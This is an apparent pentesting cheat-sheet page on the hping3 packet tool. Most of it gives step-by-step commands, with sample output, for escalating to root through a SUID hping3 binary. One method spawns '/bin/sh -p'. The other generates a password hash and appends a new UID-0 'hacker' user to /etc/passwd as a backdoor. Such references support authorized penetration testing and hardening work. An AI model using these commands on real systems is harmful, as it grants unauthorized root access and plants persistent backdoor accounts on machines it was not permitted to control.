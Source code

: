 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Hping3

[`hping3`](https://linux.die.net/man/8/hping3) is a network testing tool used for crafting and sending custom TCP/IP packets. It supports TCP, UDP, ICMP, and RAW-IP protocols, allowing precise control over packet headers. Unlike standard tools like `ping`, hping3 enables advanced manipulation of traffic for in-depth network analysis and security assessment.

`hping3` can be leveraged to gain access to sensitive files or escalate to a `root` shell :

{% tabs %}
{% tab title="Not Fully Interactive Shell" %}
Escalate to `root` in a not fully interactive shell ([source](https://gtfobins.github.io/gtfobins/hping3/#suid)):

{% code overflow="wrap" %}
```bash
$ find / -type f -perm -u=s 2>/dev/null
/usr/sbin/hping3
​
$ /usr/sbin/hping3
hping3> /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
{% endcode %}
{% endtab %}

{% tab title="Fully Interactive Shell" %}
A new `root` user can be created to gain a fully interactive shell:

{% code overflow="wrap" %}
```bash
# Create a hash
$ openssl passwd -1 -salt hacker pass123
$1$hacker$zVnrpoW2JQO5YUrLmAs.o1
​
# Launch a hping3 shell
$ /usr/sbin/hping3

# Base-64 encode the payload
$ echo 'hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0::/root:/bin/bash' | base64
aGF...<SNIP>...oCg==
​
hping3> echo "aGF...<SNIP>...oCg==" | base64 -d >> /etc/passwd
​
hping3> su hacker
Password: pass123

# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
{% endtab %}
{% endtabs %}
